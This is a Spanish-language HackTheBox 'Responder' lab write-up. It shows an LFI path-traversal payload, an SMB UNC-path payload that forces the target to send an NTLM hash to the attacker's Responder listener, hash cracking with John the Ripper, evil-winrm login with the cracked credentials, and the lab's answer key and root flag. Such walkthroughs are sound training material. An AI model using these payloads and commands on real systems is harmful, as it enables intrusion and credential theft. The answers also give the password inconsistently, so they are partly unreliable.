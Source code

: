 # Responder - HackTheBox
![[Pasted image 20220427153530.png]]

Realizamos un escaneo de ==nmap== para identificar los puertos abiertos y servicios.
```
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```
Resultado del escaneo:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```
Visitamos el servidor web corriendo en el puerto 80 mediante el navegador (Firefox).

![[Pasted image 20220427161647.png]]
![[Pasted image 20220427161628.png]]

Nos redirige a una pagina web llamada **unika.htb**. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo **/etc/hosts** para poder visualizar la pagina web.

![[Pasted image 20220427162215.png]]

Ahora ya podemos visualizarla.

![[Pasted image 20220427162345.png]]

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado **french.html** mediante **index.php**

![[Pasted image 20220427162745.png]]

Vamos a pasarle al parámetro "page" la siguiente cadena para saber si es vulnerable a **LFI** y como consecuencia a **path traversal**.
````
../../. ./../../../../../windows/system32/drivers/etc/hosts
````
![[Pasted image 20220427163537.png]]

![[Pasted image 20220427163432.png]]

Como podemos ver existe una vulnerabilidad en esta web.
Regresando al escaneo, el puerto **5985** se encuentra abierto lo que quiere decir que **WinRM** esta disponible. Podemos aprovecharnos del **LFI** de la página web para capturar el **hash NTLM** de la máquina con ayuda de la herramienta **responder**.

Vamos a ejecutar la herramienta con el siguente comando.
```
sudo responder -I tun0

(tun0 es la interfaz de red de nuestra máquina)
```
![[Pasted image 20220427170550.png]]

Verificamos que el servidor  **SMB** este activado.

![[Pasted image 20220427170523.png]]

Mientras **responder** esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page. 
```
//{our machine ip}/somefile
```
Esto para que la página incluya un "recurso" de nuestro servidor **SMB** y se establezca una conexión.

![[Pasted image 20220427171130.png]]

Vemos en la terminal que se ha capturado el **hash NTLM**.

![[Pasted image 20220427171250.png]]

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta **John The Ripper** .

![[Pasted image 20220427171705.png]]
```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```
![[Pasted image 20220427172056.png]]

A continuación utilizamos la herramienta **evilwinrm** para autenticarnos en el sistema con las credenciales obtenidas.
```
evil-winrm -i {target ip} -u administrator -p badminton
```
![[Pasted image 20220427172504.png]]

Ahora solo queda buscar el archivo ==flag.txt==. Este se encuentra en la ruta ``C:\Users\mike\Desktop``.

![[Pasted image 20220427172844.png]]


## Preguntas
1. ¿Cuántos puertos TCP están abiertos en la máquina?
	**3**

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?
	**unika.htb**

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?
	**php**

5. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?
	**page**

6. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
	**../../. ./../../../../../windows/system32/drivers/etc/hosts**

7. ¿Qué significa NTLM?
	**New Technology LAN Manager**

8. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?
	**-I**

9. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.
	**John The Ripper**

10. ¿Cuál es la contraseña para el usuario administrador?
	**batminton**

11. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?
	**5985**
	

Root Flag:
**ea81b7afddd03efaa0945333ed147fac**

![[Pasted image 20220427134218.png]]